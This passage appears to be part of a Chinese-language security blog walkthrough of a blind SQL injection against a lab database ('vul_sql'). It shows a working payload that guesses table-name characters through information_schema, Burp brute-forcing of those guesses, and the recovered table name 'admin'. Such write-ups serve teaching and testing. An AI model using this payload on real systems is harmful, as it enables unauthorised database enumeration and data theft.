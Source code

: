 ![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614935559085.png)

逐个猜解5个字符 `t%' and ord(mid((select concat(table_name) from information_schema.tables where table_schema='vul_sql' limit 0,1),1,1))=97 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614936113929.png)

还是利用 burp 来进行爆破猜解<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614936197394.png)

把爆破结果摘选出来：
> 1 > 97--a<br>
> 2 > 100--d<br>
> 3 > 109--m<br>
> 4 > 105--i<br>
> 5 > 110--n<br>
> 第一个表名为：admin
